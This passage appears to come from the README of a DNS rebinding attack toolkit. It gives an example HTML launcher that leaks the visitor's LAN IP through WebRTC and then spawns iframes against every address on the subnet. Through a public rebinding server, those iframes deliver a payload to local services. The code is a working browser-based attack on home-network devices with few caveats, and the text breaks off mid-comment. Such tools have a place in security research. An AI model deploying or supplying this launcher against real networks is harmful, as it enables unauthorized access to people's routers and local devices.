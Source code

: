 Here is an example HTML launcher file. You can find the complete document in [`examples/launcher.html`](examples/launcher.html).

```html
<!DOCTYPE html>
<head>
	<title>Example launcher</title>
</head>
<body>
    <!-- This script is a depency of DNSRebindAttack.js and must be included -->
    <script type="text/javascript" src="/share/js/EventEmitter.js"></script>
    <!-- Include the DNS Rebind Attack object -->
    <script type="text/javascript" src="/share/js/DNSRebindAttack.js"></script>
    <script type="text/javascript">

    // DNSRebindAttack has a static method that uses WebRTC to leak the
    // browser's IP address on the LAN. We'll use this to guess the LAN's IP
    // subnet. If the local IP is 192.168.1.89, we'll launch 255 iframes
    // targetting all IP addresses from 192.168.1.1-255
    DNSRebindAttack.getLocalIPAddress()
    .then(ip => launchRebindAttack(ip))
    .catch(err => {
        console.error(err)
        // Looks like our nifty WebRTC leak trick didn't work (doesn't work
        // in Firefox). No biggie, most home networks are 192.168.1.1/24 anyway.
        launchRebindAttack('192.168.1.1')
    })
    
    function launchRebindAttack(localIp) {
        
        // convert 192.168.1.1 into array from 192.168.1.0 - 192.168.1.255
        const first3Octets = localIp.substring(0, localIp.lastIndexOf('.'))
        const ips = [...Array(256).keys()].map(octet => `${first3Octets}.${octet}`)
        
        // The first argument is the domain name of a publicly accessible
        // whonow server (https://github.com/brannondorsey/whonow).
        // I've got one running on port 53 of rebind.network you can to use.
        // Chances are the services you are attacking aren't running on port
        // 80, so you might want to change that.
        const rebind = new DNSRebindAttack('rebind.network', 8008)

        // Launch a DNS Rebind attack, spawning 255 iframes attacking the service
        // on each host of the subnet (or so we hope).
        // Args are:
        //  1) target ip addresses
        //  2) IP address your Node server.js is running on. Usually 127.0.0.1
        //     during dev, but then the publicly accessible IP (not hostname)
        //     of the VPS hosting this repo in production.
        //  3) the HTML payload to deliver to this service. This HTML file should
        //     have a DNSRebindNode instance implemented on in it.
        //  4) the interval in milliseconds to wait between each new iframe
        //     embed. Spawning 100 iframes at the same time can choke (or crash)
        //     a browser. The higher this value, the longer the attack takes,
        //     but the less resources it consumes.
        rebind.attack(ips, '127.0.0.1', 'examples/payload.html', 200)
        
        // rebind.nodes is also an EventEmitter, only this one is fired using
        // DNSRebindNode.emit(...). This allows DNSRebindNodes inside of
        // iframes to post messages back to the parent DNSRebindAttack that
        // launched them. You can define custome events by simply emitting
        // DNSRebindNode.emit('my-custom-event') and a listener in rebind.nodes
        // can receive it. That said, there are a few standard event names that
        // get triggered automagically:
        //  - begin: triggered when DNSRebindNode.js is loaded. This signifies
```